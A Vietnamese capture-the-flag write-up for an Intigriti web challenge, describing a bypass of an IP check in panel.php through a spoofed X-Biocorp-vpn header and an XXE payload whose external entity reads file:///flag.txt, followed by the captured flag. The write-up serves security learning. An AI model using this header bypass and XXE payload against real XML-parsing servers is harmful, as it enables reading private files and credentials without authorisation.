




next cha lừnn

view source cho nhanh nhé, mình dùng thử ko có gì đâu ae


đập vào mắt là thằng `panel.php` nhé ae, chắc sẽ có gì vui trong đây
view qua docker để biết flag nằm ở đâu


oke, bài này ko cần tới mức RCE, vì chỉ cần đọc được file `flag.txt` là có flag rồi

quay trở lại với `panel.php`



đầu tiên là bypass `remote_add` bằng header `X-Biocorp-vpn`, cái này đơn giản rồi

tiếp theo dòng 10 nó check `method` và `content-type`, lại còn sử dụng hàm `file_get_contents` nhận value là các giá trị input trong body dạng `XML`.
-> XXE
OKE, hướng exploit là:
1. Bypass check ip_address bằng header `X-biocorp-vpn`
2. post data dạng xml(xxe injection) cho server xử lý và trả về kết quả flag

Tiến hành exploit, payload lấy trên payload all the thing nhé ae, github ae search là có


```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
<reactor>
	<root>
		<temperature>&test;</temperature>
        	<pressure>1337</pressure>
        	<control_rods>Lowered</control_rods>
	</root>
</reactor>
```



FLAG: `INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}`


